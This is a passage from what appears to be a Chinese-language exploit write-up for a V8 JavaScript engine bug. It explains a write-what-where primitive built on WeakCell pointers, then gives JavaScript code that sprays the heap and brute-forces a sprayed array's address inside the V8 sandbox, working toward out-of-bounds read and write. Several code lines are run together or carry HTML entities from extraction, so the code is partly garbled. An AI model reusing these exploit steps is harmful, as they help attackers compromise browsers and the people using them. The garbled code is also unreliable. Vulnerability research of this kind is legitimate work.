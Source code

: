   
  
这为我们提供了一个“写入什么-在哪里”的原语，尽管我们只能控制“在哪里”，而不能控制“什么”。写入的值始终是一个有效的WeakCell指针（即 V8 堆对象），这很有用，但仍然有限。  
  
泄露地址并获取越界读写  
  
就本节而言，我还没有找到一种优雅的方法来泄漏地址。但是，我们可以利用堆沙箱环境。由于沙箱架构的原因，所有地址都表示为相对于沙箱基址的 DWORD 偏移量。  
  
通过我的测试，我始终观察到巨大的数组分配最终会以类似的偏移量结束：  
  

```
// Spray something useful to corrupt
p.spray2 = [];
for (let i = 0; i < 10000; i++) {
  p.spray2.push(uint64ToFloat(0x4040404040404040n));
}
```

  
  
这种可预测的行为使我们能够强行破解目标地址：  
  

```
/** Try to find the spray2 address */
functionfindSpray2Addr() {
// let spray2_addr = 0x14b000;
let spray2_addr = 0x18b000; // GDB
let first_offset_changed = -1;
let spray64 = new BigUint64Array(p.spray.length);
let spray8 = newUint8Array(spray64.buffer);

// % DebugPrint(p.spray2);

for (spray2_addr; spray2_addr < 0x200000; spray2_addr += 0x1000) {
    // Set a valid pointer at spray2_addr
    for (let i = 0; i < p.spray.length; i++) {
      p.spray[i] = uint64ToFloat((BigInt(p.token_hash) << 1n) | (BigInt(spray2_addr) << 32n));
    }
    p.registry.register({}, undefined, p.token);

    // Create a spray2's memory view
    for (let i = 0; i < p.spray2.length; i++) {
      spray64[i] = floatToUint64(p.spray2[i]);
    }

    // Look for the overwritten value
    first_offset_changed = -1;
    for (let i = 0; i < spray8.length; i++) {
      if (spray8[i] != 0x40) {
        first_offset_changed = i;
        break;
      }
    }

    if (first_offset_changed != -1) {
      break;
    }
  }
if (first_offset_changed == -1) {
    print(&#34;Failed to overwrite spray2&#34;);
    returnfalse;
  }

// Now we can calculate the real spray2 address
  p.spray2_addr = spray2_addr - first_offset_changed + 3;
  print(`spray2_addr = 0x${p.spray2_addr.toString(16)}`);
returntrue;
}
```